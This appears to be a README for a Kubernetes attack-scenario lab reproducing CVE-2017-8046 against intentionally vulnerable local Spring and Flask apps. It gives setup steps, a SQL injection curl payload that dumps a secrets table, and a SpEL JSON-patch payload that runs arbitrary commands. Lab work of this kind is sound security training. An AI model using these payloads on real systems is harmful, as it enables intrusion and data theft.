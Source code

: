 ## CVE-2017-8046
https://nvd.nist.gov/vuln/detail/CVE-2017-8046 \
Target Application: Spring \
Software Link: https://github.com/m3ssap0/SpringBreakVulnerableApp \
Version: Spring Boot 1.5.6.RELEASE \
Writeup: https://github.com/Moon3r/vulfocus/blob/master/writeup/CVE-2017-8046/CVE-2017-8046.md \
Used PoCs: 
* https://github.com/m3ssap0/spring-break_cve-2017-8046

### Tactics Used
Initial Access: Application vulnerability \
Execution: Application exploit (RCE)

### Steps to Reproduce

## Setup
1- `minikube start` \
2- In FlaskVulnerableFrontEnd/kube run `kubectl apply -f vulnerable-frontend-deployment.yaml` \
3- In SpringBreakVulnerableApp/kube run `kubectl apply -f springbreak-vulnerable-app-deployment.yaml` \
4- Port-forward both of them with `kubectl port-forward pods/springbreak-vulnerable-app..... 8090:8090` and `kubectl port-forward pods/vulnerable-frontend-.... 5000:5000` \

## Attack
1- First the attacker uses SQL Injection to the frontend with known ip and port with `curl "http://localhost:5000/search?query='%20UNION%20SELECT%20id,%20secret_info%20AS%20info%20FROM%20secrets%20--"` and finds the internet endpoint of the backend server. \
2- Create the attack entity with `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
3- Then with this knowledge attacker runs the exploit.py, `python exploit.py --ip <ip from injection> --port <port from injection>` \
4- Attacker has connected a pseudo reverse shell. \

### Demo
[scenario-4.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/e9540424-23bd-41c1-8fcc-75b97f8084df)


## Other ways to create the exploit and its payload
1- To Create server jar in SpringBreakVulnerableApp run `mvn clean install spring-boot:repackage` \
2- Run server `mvn spring-boot:run` \
3- To start server in SpringBreakVulnerableApp run `java -jar -Dserver.port=8090 target/SpringBreakVulnerableApp-1.0.jar --debug` \
4- Create data for exploit `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
5- To Create exploit jar, in spring-break_cve-2017-8046 run `mvn clean compile package` \
6- To execute commands use ` java -jar spring-break_cve-2017-8046-1.3-jar-with-dependencies.jar --url "http://localhost:8090/entity/1" --command "<command>"` or `curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"<command>\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"` \

